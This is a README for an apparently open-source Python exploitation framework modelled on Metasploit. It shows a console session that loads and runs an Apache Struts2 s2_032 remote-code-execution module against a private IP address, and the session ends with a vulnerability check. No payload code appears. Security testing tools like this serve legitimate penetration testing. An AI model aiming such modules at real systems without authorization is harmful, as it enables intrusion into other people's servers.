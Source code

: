 
## Open-Security-Framework

**Open-Security-Framework** is a pythonic framework which is similar to [metasploit-framework](https://github.com/rapid7/metasploit-framework). If you are interested in python pragramming, please join us to create a good open-source project.

![](screenshot.png)

## Apache Struts2 s2_032 Remote Code Execution

```
open-security-framework [development] python osfconsole.py
Open-Security-Framework > show modules

    exploits/multi/http/apache_struts_dmi_rce

Open-Security-Framework > use exploits/multi/http/apache_struts_dmi_rce
Open-Security-Framework (exploits/multi/http/apache_struts_dmi_rce) > show options

    Option     Current Setting                           Description
    ---------  ----------------------------------------  --------------------------
    TARGETURI  /struts2-blank/example/HelloWorld.action  target uri to request
    THREADS    1                                         Set default threads number
    VERBOSE    False                                     Verbose mode
    RPORT      8080                                      the target port
    RHOST      172.16.176.226                            the target host

Open-Security-Framework (exploits/multi/http/apache_struts_dmi_rce) > run
[+] http://172.16.176.226:8080/struts2-blank/example/HelloWorld.action - Checking struts2 s2_032 rce...
Starting new HTTP connection (1): 172.16.176.226
[+] Target is vulanable
```

**Open-Security License**
